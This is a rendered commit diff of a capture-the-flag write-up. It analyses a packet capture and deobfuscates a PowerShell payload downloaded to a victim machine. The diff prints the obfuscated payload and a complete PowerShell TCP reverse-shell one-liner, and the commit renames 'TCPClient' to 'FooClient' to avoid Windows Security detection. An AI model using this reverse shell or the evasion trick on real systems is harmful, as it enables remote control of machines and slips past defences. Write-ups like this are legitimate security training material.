

Before and after one commit to deweythedeci/ctf-writeups, a Markdown page: world-wide-ctf-2025/nishang/README.md, 2 parts joined by grey strips. Shown at 98% size. Rendered like a GitHub page.

Commit message:
censored some stuff to get around windows security

````diff
--- a/world-wide-ctf-2025/nishang/README.md
+++ b/world-wide-ctf-2025/nishang/README.md
@@ -5,7 +5,7 @@
 > Category: Beginner\
 > Analyze the provided network capture to uncover what was downloaded to the victim’s machine.
 
-In this challenge, we are given access to a pcap file and it is hinted that something was downloaded to a "victim's" machine.
+In this challenge, we are given access to a pcap file and it is hinted that something was downloaded to a "victim's" machine. As a heads up, in this challenge there is an inclusion of a Powershell reverse shell which does get picked up by Windows Security. To get around this I replaced all instances of "TCPClient" so
 
 ## Solution
 
@@ -32,14 +32,14 @@ We see that the GET request is replyed with a payload of a bunch of random looki
 
 ```
 ((("{47}{90}{16}{94}{30}{84}{52}{111}{58}{56}{33}{106}{101}{23}{11}{73}{92}{14}{86}{49}{115}{113}{80}{70}{22}{98}{40}{10}{6}{67}{5}{69}{25}{44}{71}{45}{61}{57}{97}{99}{104}{110}{117}{109}{105}{91}{53}{51}{34}{100}{26}{21}{13}{116}{39}{24}{103}{78}{37}{72}{2}{7}{85}{8}{82}{55}{68}{75}{89}{12}{64}{43}{4}{3}{35}{77}{38}{32}{63}{93}{28}{17}{96}{79}{66}{36}{29}{87}{107}{108}{83}{48}{54}{1}{0}{112}{9}{102}{15}{31}{18}{81}{50}{88}{20}{76}{59}{65}{74}{60}{62}{41}{46}{114}{95}{27}{19}{42}"-f'.','t','n',')','ing ','};while((n','4','z0sendback ',' (i',']::ASCII)','L6','0n}1','2>&1 L6','ding',' nz0clie','etBytes(nz0sendb',' = Ne','endback',');n','lose(','rite','ASCIIEnco','= 0.','1','es,','0i = nz0str','.','nt.C','s','pwd)','Object System.','ack2','b','m3_','peName System.Tex',';nz0','(',')','nd','GetString(nz0byt','5','lush()',')
-',' Out-Str','eam.Read','nz0b','};nz0','nz','yte = ','.GetStream();[byt','0s','y','So','ect -T','([tex',' nz','wwf{s0','z0b','ts.TCPClient(19R','byte,0','ength);nz0str','ytes, 0, n','eam.F','ac','4',',nz0sendbyte.','S 19R + ','%{0','0d','z','tes ','(',';','9R,9001);n','L','a','(nz0send','se','0i',' 19RP','nz0by','z','ex','9R;nz0sendb','Net.','=','nt','.Path ','tream.W','ta ','0client','bj','z0stream =','k2  = nz0','w-','ie',' +','y','.6553','tes.Length)) -ne 0){;nz0','t','l_0bfusc47','.G','0, nz','dat','O','p0w3r5h3l','+ 19R','> 1','New-','a = ','cke','encoding','[]]','cl','e',').','('))-rePLace  'L64',[ChaR]124-CrepLaCe([ChaR]49+[ChaR]57+[ChaR]82),[ChaR]39 -CrepLaCe  'nz0',[ChaR]36)|& ((gv '*mdR*').nAmE[3,11,2]-jOiN'')
+',' Out-Str','eam.Read','nz0b','};nz0','nz','yte = ','.GetStream();[byt','0s','y','So','ect -T','([tex',' nz','wwf{s0','z0b','ts.FooClient(19R','byte,0','ength);nz0str','ytes, 0, n','eam.F','ac','4',',nz0sendbyte.','S 19R + ','%{0','0d','z','tes ','(',';','9R,9001);n','L','a','(nz0send','se','0i',' 19RP','nz0by','z','ex','9R;nz0sendb','Net.','=','nt','.Path ','tream.W','ta ','0client','bj','z0stream =','k2  = nz0','w-','ie',' +','y','.6553','tes.Length)) -ne 0){;nz0','t','l_0bfusc47','.G','0, nz','dat','O','p0w3r5h3l','+ 19R','> 1','New-','a = ','cke','encoding','[]]','cl','e',').','('))-rePLace  'L64',[ChaR]124-CrepLaCe([ChaR]49+[ChaR]57+[ChaR]82),[ChaR]39 -CrepLaCe  'nz0',[ChaR]36)|& ((gv '*mdR*').nAmE[3,11,2]-jOiN'')
 ```
 
 Looking at this, we can identify that this is Powershell code, and that it is heavily obfuscated. If you try to run this command, you will get a bunch of errors most likely and Windows will swoop and complain about an attempted reverse shell. This isn't too suprising given the mention of a "victim" earlier. Still, we can sort of parse this command by looking at the parens that group it and see that the command is split into two parts:
 
 ```
 ((("{47}{90}{16}{94}{30}{84}{52}{111}{58}{56}{33}{106}{101}{23}{11}{73}{92}{14}{86}{49}{115}{113}{80}{70}{22}{98}{40}{10}{6}{67}{5}{69}{25}{44}{71}{45}{61}{57}{97}{99}{104}{110}{117}{109}{105}{91}{53}{51}{34}{100}{26}{21}{13}{116}{39}{24}{103}{78}{37}{72}{2}{7}{85}{8}{82}{55}{68}{75}{89}{12}{64}{43}{4}{3}{35}{77}{38}{32}{63}{93}{28}{17}{96}{79}{66}{36}{29}{87}{107}{108}{83}{48}{54}{1}{0}{112}{9}{102}{15}{31}{18}{81}{50}{88}{20}{76}{59}{65}{74}{60}{62}{41}{46}{114}{95}{27}{19}{42}"-f'.','t','n',')','ing ','};while((n','4','z0sendback ',' (i',']::ASCII)','L6','0n}1','2>&1 L6','ding',' nz0clie','etBytes(nz0sendb',' = Ne','endback',');n','lose(','rite','ASCIIEnco','= 0.','1','es,','0i = nz0str','.','nt.C','s','pwd)','Object System.','ack2','b','m3_','peName System.Tex',';nz0','(',')','nd','GetString(nz0byt','5','lush()',')
-',' Out-Str','eam.Read','nz0b','};nz0','nz','yte = ','.GetStream();[byt','0s','y','So','ect -T','([tex',' nz','wwf{s0','z0b','ts.TCPClient(19R','byte,0','ength);nz0str','ytes, 0, n','eam.F','ac','4',',nz0sendbyte.','S 19R + ','%{0','0d','z','tes ','(',';','9R,9001);n','L','a','(nz0send','se','0i',' 19RP','nz0by','z','ex','9R;nz0sendb','Net.','=','nt','.Path ','tream.W','ta ','0client','bj','z0stream =','k2  = nz0','w-','ie',' +','y','.6553','tes.Length)) -ne 0){;nz0','t','l_0bfusc47','.G','0, nz','dat','O','p0w3r5h3l','+ 19R','> 1','New-','a = ','cke','encoding','[]]','cl','e',').','('))-rePLace  'L64',[ChaR]124-CrepLaCe([ChaR]49+[ChaR]57+[ChaR]82),[ChaR]39 -CrepLaCe  'nz0',[ChaR]36)
+',' Out-Str','eam.Read','nz0b','};nz0','nz','yte = ','.GetStream();[byt','0s','y','So','ect -T','([tex',' nz','wwf{s0','z0b','ts.FooClient(19R','byte,0','ength);nz0str','ytes, 0, n','eam.F','ac','4',',nz0sendbyte.','S 19R + ','%{0','0d','z','tes ','(',';','9R,9001);n','L','a','(nz0send','se','0i',' 19RP','nz0by','z','ex','9R;nz0sendb','Net.','=','nt','.Path ','tream.W','ta ','0client','bj','z0stream =','k2  = nz0','w-','ie',' +','y','.6553','tes.Length)) -ne 0){;nz0','t','l_0bfusc47','.G','0, nz','dat','O','p0w3r5h3l','+ 19R','> 1','New-','a = ','cke','encoding','[]]','cl','e',').','('))-rePLace  'L64',[ChaR]124-CrepLaCe([ChaR]49+[ChaR]57+[ChaR]82),[ChaR]39 -CrepLaCe  'nz0',[ChaR]36)
 ```
 
 Which gets piped with a '|&' into
@@ -51,7 +51,7 @@ Which gets piped with a '|&' into
 If we run just that first command, we get the flag in its output. The second piece is just a round about way of getting the string "iex" which is used to actually run the reverse shell.
 
 ```
-$client = New-Object System.Net.Sockets.TCPClient('wwf{s0m3_p0w3r5h3ll_0bfusc4710n}',9001);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
+$client = New-Object System.Net.Sockets.FooClient('wwf{s0m3_p0w3r5h3ll_0bfusc4710n}',9001);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
 ```
 
 Flag: `wwf{s0m3_p0w3r5h3ll_0bfusc4710n}`
````
